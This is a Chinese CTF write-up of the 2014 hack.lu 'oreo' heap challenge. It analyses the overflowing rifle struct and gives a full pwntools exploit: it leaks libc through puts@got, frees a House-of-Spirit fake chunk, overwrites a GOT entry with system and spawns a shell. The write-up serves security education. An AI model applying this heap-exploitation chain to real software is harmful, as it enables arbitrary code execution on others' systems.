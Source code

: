 ```yaml
---
title: 2014 hack.lu oreo (House Of Spirit)
date: 2018-04-06 08:53:15
categories: 
	- CTF
tags:
	- CTF
	- Fastbin-Double-Free
	- House-Of-Spirit

---
```


## 基本分析

    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
可以看出，程序确实是比较老的，32位程序，动态链接，就连 RELRO 技术也没有上。



## 基本功能分析

结构体：

```
00000000 rifle           struc ; (sizeof=0x38, mappedto_5)
00000000 descript        db 25 dup(?)
00000019 name            db 27 dup(?)
00000034 next            dd ?                    ; offset
00000038 rifle           ends
```

- 添加枪支，其主要会读取枪支的名字与描述。但问题在于读取的名字的长度过长，可以覆盖 next 指针以及后面堆块的数据。可以覆盖后面堆块的数据大小为 56-(56-27)=27 大小。需要注意的是，这些枪支的大小都是在fastbin 范围内的。
- 展示添加枪支，即从头到尾输出枪支的描述与名字。
- 订已经选择的枪支，即将所有已经添加的枪支释放掉，但是并没有置为NULL。
- 留下订货消息
- 展示目前状态，即添加了多少只枪，订了多少单，留下了什么信息。



## 利用

基本利用思路如下

1. 由于程序存在堆溢出漏洞，而且还可以控制 next 指针，我们可以直接控制 next 指针指向程序中 got 表的位置。当进行展示的时候，即可以输出对应的内容，这里同时需要确保假设对应地址为一个枪支结构体时，其 next 指针为 NULL。这里我采用 puts@got。通过这样的操作，我们就可以获得出 libc 基地址，以及 system 函数地址。
2. 由于枪支结构体大小是 0x38 大小，所以其对应的 chunk 为 0x40。这里采用 `house of sprit` 的技术来返回 0x0804A2A8 处的chunk，即留下的消息的指针。因此，我们需要设置 0x0804A2A4 处的内容为 0x40，即需要添加 0x40 支枪支，从而绕过大小检测。同时为了确保可以绕过 next chunk 的检测，这里我们编辑留下的消息。
3. 在成功分配这样的 chunk 后，我们其实就有了一个任意地址修改的漏洞，这里我们可以选择修改一个合适的 got 项为 system 地址，从而获得 shell。



```Python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def add(descrip, name):
    p.sendline('1')
    #p.recvuntil('Rifle name: ')
    p.sendline(name)
    #p.recvuntil('Rifle description: ')
    #sleep(0.5)
    p.sendline(descrip)


def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')


def order():
    p.sendline('3')


def message(notice):
    p.sendline('4')
    #p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)


def exp():
    print 'step 1. leak libc base'
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(25 * 'a', name)
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    print 'step 2. free fake chunk at 0x0804A2A8'

    # now, oifle_cnt=1, we need set it = 0x40
    oifle = 1
    while oifle < 0x3f:
        # set next link=NULL
        add(25 * 'a', 'a' * 27 + p32(0))
        oifle += 1
    payload = 'a' * 27 + p32(0x0804a2a8)
    # set next link=0x0804A2A8, try to free a fake chunk
    add(25 * 'a', payload)
    # before free, we need to bypass some check
    # fake chunk's size is 0x40
    # 0x20 *'a' for padding the last fake chunk
    # 0x40 for fake chunk's next chunk's prev_size
    # 0x100 for fake chunk's next chunk's size
    # set fake iofle' next to be NULL
    payload = 0x20 * '\x00' + p32(0x40) + p32(0x100)
    payload = payload.ljust(52, 'b')
    payload += p32(0)
    payload = payload.ljust(128, 'c')
    message(payload)
    # fastbin 0x40: 0x0804A2A0->some where heap->NULL
    order()
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)
    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()
```



## 参考

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack/#2014-hacklu-oreo







